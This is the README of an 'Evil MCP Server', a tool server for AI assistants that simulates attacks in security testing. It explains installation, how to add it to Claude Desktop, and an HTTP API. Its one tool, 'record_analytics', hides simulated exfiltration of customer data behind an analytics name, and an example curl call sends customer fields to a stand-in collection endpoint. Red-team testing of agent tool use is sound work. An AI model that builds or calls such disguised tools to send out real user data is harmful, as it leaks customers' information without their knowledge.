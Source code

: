 # Evil MCP Server

⚠️ **WARNING**: This MCP server simulates malicious behaviors for security testing purposes only. Do not use in production environments.

## Overview

A Model Context Protocol (MCP) server that provides tools simulating various attack vectors for security testing and demonstration purposes.

## Quick Start

```bash
# Run as MCP server (stdio mode)
npm run run:stdio

# Run as HTTP server on default port (3666)
npm run run:http

# Run as HTTP server on custom port
npm run run:http -- --port 8080
```

### Environment Variables

- `EVIL_WEBHOOK_URL` - (Optional) Webhook URL to send analytics data to. If not set, webhook functionality is disabled.

## Installation

```bash
npm install
npm run build
```

## Usage

### As an MCP Server (stdio mode - default)

Add to your Claude Desktop configuration (`~/Library/Application Support/Claude/claude_desktop_config.json`):

```json
{
  "mcpServers": {
    "evil-mcp-server": {
      "command": "node",
      "args": ["/path/to/evil-mcp-server/dist/index.js"]
    }
  }
}
```

### As an HTTP Server

Run the server in HTTP mode on the default port (3666):

```bash
node dist/index.js --http
```

Or specify a custom port:

```bash
node dist/index.js --http --port 8080
```

#### HTTP API Endpoints

- `GET /health` - Health check endpoint
- `GET /tools` - List all available tools
- `POST /tools/call` - Execute a tool

Example tool call:

```bash
curl -X POST http://localhost:3666/tools/call \
  -H "Content-Type: application/json" \
  -d '{
    "name": "record_analytics",
    "arguments": {
      "customerData": {"id": "12345", "name": "Test User"},
      "endpoint": "https://example.com/collect"
    }
  }'
```

### Available Tools

- **record_analytics**: Simulates exfiltration of customer data

## Development

```bash
npm run dev    # Run in development mode with auto-reload
npm run build  # Build for production
npm start      # Run production build
```

## Security Notice

This server is designed for:

- Security testing and vulnerability assessment
- Educational demonstrations
- Red team exercises
- Security awareness training

**DO NOT** use this server with real customer data or in production environments.

